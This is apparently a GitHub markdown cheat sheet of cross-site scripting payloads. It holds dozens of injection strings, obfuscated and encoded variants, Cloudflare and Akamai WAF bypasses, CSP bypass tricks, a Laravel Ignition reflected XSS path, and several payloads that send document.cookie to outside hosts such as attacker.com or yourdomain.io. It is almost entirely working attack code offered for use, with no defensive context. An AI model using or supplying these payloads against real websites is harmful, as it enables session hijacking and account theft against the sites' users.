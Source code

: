 # Custom XSS Payloads
```javascript
<img src=123><img src=123><a href="javascript:alert(document.domain)">xss</a><svg></svg><img src=1>
\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e
<script /***/>/***/confirm(document.cookie,document.domain)/***/</script /***/
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
<svg><script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}
<a href="javascript:void(0)" onmouseover=&NewLine;javascript:alert(document.domain,document.cookie)&NewLine;>X</a>
<iframe onload="javascript:prompt(document.domain)" id="hello" role"world">Hello google
‘>alert(154)<​/script><​script/154=’;;;;;;;
10203040;𝐩𝐡𝐨𝐧𝐞-𝐜𝐨𝐧𝐭𝐞𝐱𝐭=<𝐬𝐜𝐫𝐢𝐩𝐭>𝐚𝐥𝐞𝐫𝐭(1)</𝐬𝐜𝐫𝐢𝐩𝐭>
"><input%252bTyPE%25253d"hxlxmj"%252bSTyLe%25253d"display%25253anone%25253b"%252bonfocus%25253d"this.style.display%25253d'block'%25253b%252bthis.onfocus%25253dnull%25253b"%252boNMoUseOVer%25253d"this['onmo'%25252b'useover']%25253dnull%25253beval(String.fromCharCode(99,111,110,102,105,114,109,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))%25253b"%252bAuToFOcus>
"><script>alert(String.fromCharCode(66, 108, 65, 99, 75, 73, 99, 101))</script>
returnuri=%09Jav%09ascript:alert(document.domain)
var onskeywords = 'hello';onload=prompt(0);
'};alert('XSS');var x={y:'
"hello" onmouseover=prompt(0) world=""
test"t"\t/t%3Ct%3Et
ABABAB--%3E%3Cscript%3Ealert(1337)%3C/script%3E]
"â™ˆ<<sVg/onloadâ™ˆ=/svg/onload=svg/onmouseOver=confirm'1'><!--â™ˆ//="
/><svg src=x onload=confirm(document.domain);>
<script>alert(String.fromCharCode(88, 115, 115, 32, 66, 121, 32, 79, 108, 100, 77, 111, 104, 97, 109, 109))</script>
<svg/onload=alert(document.domain)>")
<<!<script>iframe src=javajavascriptscript:alert(document.domain)>
"><svg onload=alert`XSS`>
foo style=animation-name:gl-spinner-rotate onanimationend=alert(1)  -- apply this in profile name section
">svg onx=() onload=(location.href='<BIN>/?mycookies='+document['cookie'])()>
<a"/aonclick=(confirm)()>click
😎<<svg/onload😎=/svg/onload=svg/onmouseOver=confirm'1'><!--😎//="
onhashchange=setTimeout;
Object.prototype.toString=RegExp.prototype.toString;
Object.prototype.source=location.hash;
location.hash=null
'-(a=alert,b="_Yooo!_",[b].find(a))-'
%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E
<svg%09%0a%0b%0c%0d%0a%00%20onload=alert(1)>
<iframe onload=alert(document.domail)>
<iframe src=%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(0)">
<script%20~~~>\u0061\u006C\u0065\u0072\u0074''</script%20~~~>
<svg onload='new Function'["_Y000!_"].find(al\u0065rt)''>
<sCRipT>alert(1)</sCRiPt>
<script>%0aalert(1)</script>
<scr<script>ipt<alert(1);</scr<script>ipt>
<input onfocus="alert('xss');" autofocus>
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pi&Tab;pt&Tab;alert&lpar;1&rpar;">
<svg•onload=alert(1)>
<script>alert?.(document?.domain)</script>
"<>onauxclick<>=(eval)(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>+<sss
<x/onpointerRawupdate=confirm%26Ipar;1)//x
<script src=//⑮.₨></script>
img{background-image:url('javascript:alert()')}
<svg/onload=eval(atob('YWxlcnQoJ1hTUycp'))>
TestPayload&lt;/a&gt;&lt;a href="javascript:alert(1)"&gt;ClickHere&lt;/a&gt; 
<img src=`xx:xx`onerror=alert(1)>
<div/onmouseover='alert(1)'> style="x:">
\";alert('XSS');//
"autofocus/onfocus=alert(1)//
'-alert(1)-'
"><img class="emoji" alt="😯" src="x" /><svg
">'><details/open/ontoggle=confirm(1337)>
%<script>3cscript%<script>3ealert(1)%<script>3c/script%<script>3e
<input disabled=disabled onbeforecopy=alert(1) value=copyme>
</textarea><img src=x onerror=”var pop=’ALERT(document.cookie);’; eval(pop.toLowerCase());”
</script><script>alert('xElkomy')</script>
OnMoUsEoVeR=prompt(/hacked/)//
<b onmouseover=alert('Wufff!')>click me!</b>
"><script>propmt("mamunwhh")</script>
"><script>alert(document.cookie)</script>
/><svg src=x onload=confirm("1337");>
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
"mitsec<form/><!><details/open/ontoggle=alert(document.domain)>"@gmail.com
"><body/oNpagEshoW​=(confirm)(document.domain)>
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS​=alert`1` //
"><details/open/id="&XSS"ontoggle​=alert("XSS_WAF_BYPASS_:-)")>
<img/src/onerror​=alert&#xFEFF;(1)>
'"><svg><animate onbegin​=alert('hacked') attributeName=x></svg> 
<a href=javascript​:alert('hacked')>Click Here</a>
<IFRAME SRC="javascript​:alert('hacked');"></IFRAME>
<div ng-app> <strong class="ng-init:constructor.constructor('alert('hacked')')()">aaa</strong> </div>
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS​=alert`hacked` //
<noscript><p title="</noscript><img src=x onerror=([,O,B,J,E,C,,]=[]+{},[T,R,U,E,F,A,L,S,,,N]=[!!O]+!O+B.E)[X=C+O+N+S+T+R+U+C+T+O+R][X](A+L+E+R+T+(document.cookie))()>">
%3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E
</a<script>alert(document.cookie</script>
"><svg/onload=prompt(1)>
```
## XSS via Reflected Headers
```http
X-Original-URL: https://attacker.com/
X-Original-URL: test//test\
X-Original-URL: https:\\samcurry.net/please//work
True-Client-IP: <h1>XSS</h1></center><script>alert(document.domain)</script>
```
## XSS payload with Alert Obfuscation, for bypass RegEx filters
```js
<img src="X" onerror=top[8680439..toString(30)](1337)>
```

## Logical assignment operators in JavaScript
```js
window&&=(window&&=opener||=alert)?.(1??0,)
```
## Which results alert(1)
```js
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()
```
## RXSS
```js
%22%3Cimg%2F**%2Fsrc%3D%22x%22%2F**%2Fonx%3D%22%22%2F**%2Fonerror%3D%22alert%60xss%60%22%3Ef9y60 --encoded
"<img/**/src="x"/**/onx=""/**/onerror="alert`xss`">f9y60 --decoded
OnMoUsEoVeR=prompt(/hacked/)//
```

## Clourflare XSS bypass
```js
<a"/onclick=(confirm)()>Click Here!
%2sscript%2ualert()%2s/script%2u
<svg onload=alert%26%230000000040"1")
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
<svg onx=() onload​=(confirm) (document.cookie)>
```

## When you find input field which allows " (quotes), try this payload:
```js
"autofocus onfocus=alert(1)//
```
-> Doesn't work

**Try this**
```js
"type%3d"text"autofocus%20onfocus%3d"alert(1)"
```
-> Works

## Akami WAF XSS Bypass
```js
xhzeem*/eval?.(value+/()/.source)//"><input value=confirm autofocus onfocus='/*"
```

Limited case Akamai WAF bypass
```js
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>
```
Works in cases where double quotes are escaped 

`<xhzeem/x=\" ....>`

can also work with single quotes (change it in the payload)
![img](https://pbs.twimg.com/media/Ex-cjUQXIAIRw-y?format=jpg&name=small)

## Stored XSS
```js
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
```

## XSS via xml
```xml
<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(document.domain)</a:script>
```

## XSS in Json
```text
["');alert('XSS');//"]@xyz.xxx
```

## CSP Bypass
```js
<Button href="javascript://%0aalert(document.domain)">XSS</Button>
javascript://%0dalert()
javascript:/**/%0aalert()
```

## Bypass XSS WAF, Filters and Akamai src,svg,autofocus,iframe,img,<>
```js
%22onmouseover=window[%27al%27%2B%27er%27%2B([%27t%27,%27b%27,%27c%27][0])](document[%27cooki%27%2B(['e','c','z'][0])]);%22
```

## Reflected XSS
```js
url=%26%2302java%26%23115cript:alert(document.domain)
```
## Laravel Ignition Reflected Cross-Site Scripting
```js
host+/_ignition/scripts/--%3E%3Csvg%20onload=alert('XSS')%3E
```

![img](https://pbs.twimg.com/media/F-pD1E9bYAAo8IB?format=jpg&name=small)

[Ref](https://x.com/momika233/status/1723264646940082330?s=20)

### A payload with some obfuscation & filter evasion tricks
```
<img%20hrEF="x"%20sRC="data:x,"%20oNLy=1%20oNErrOR=prompt1>

<img/src/onerror=setTimeout(atob(/YWxlcnQoMTMzNyk/.source))>
```

## Send Cookies to remote server
```js
"><img src=x onerror=this.src=https://attacker.com/?+document.cookie;>
```

## Reflected XSS

```js
https://REDACTED/subscribe?source=mllamazares%22%20accesskey=%22X%22%20onclick=%22alert(document.domain)%22/%3EPress%20Alt%2BShift%2BX%20to%20continue%20
```

## Payload to steal cookie
```js
<script>new Image().src="http://yourdomain.io/"+document.cookie;</script>
```
